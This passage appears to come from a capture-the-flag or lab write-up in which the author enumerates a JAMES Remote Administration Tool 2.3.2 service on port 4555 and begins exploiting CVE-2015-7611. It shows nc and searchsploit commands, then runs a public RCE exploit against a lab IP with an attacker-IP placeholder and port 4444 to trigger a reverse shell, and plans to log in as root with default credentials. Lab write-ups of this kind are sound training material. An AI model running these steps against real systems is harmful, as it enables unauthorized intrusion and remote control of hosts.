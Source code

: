 ## TCP Port 4555 - RSIP

The nmap output labelled this as “JAMES Remote Administration Tool 2.3.2”

Upon connecting to the service with nc -nv $IP 4555 it prompts us to login, I tried some basic credentials with information we’ve gathered so far but wasn’t lucky. 

I then searched via Searchsploit for james 2.3.2 using `searchsploit james 2.3.2`

![Untitled](Untitled%202.png)

In this case it’s quite obvious we want one of the RCE exploits, I opted for the second one. 

---

# Exploitation

## CVE-2015-7611

I then copied the exploit to my current directory with the command below and renamed it 

```bash
searchsploit -m 50347;mv 50347.py exploit.py
```

I then ran the exploit

```bash
python3 exploit.py 10.10.10.51 <attacker-ip> 4444
```

After running the exploit it appears to be successful but requires a login to work

![Untitled](Untitled%203.png)

Given that the exploit worked with the default credentials, let’s try connecting to the RSIP service via telnet as the root user and enumerate the users and change their password so we can trigger the reverse shell

Upon connecting I ran the `HELP` command to get the capabilities that could be leveraged. The first one I performed was `listusers`
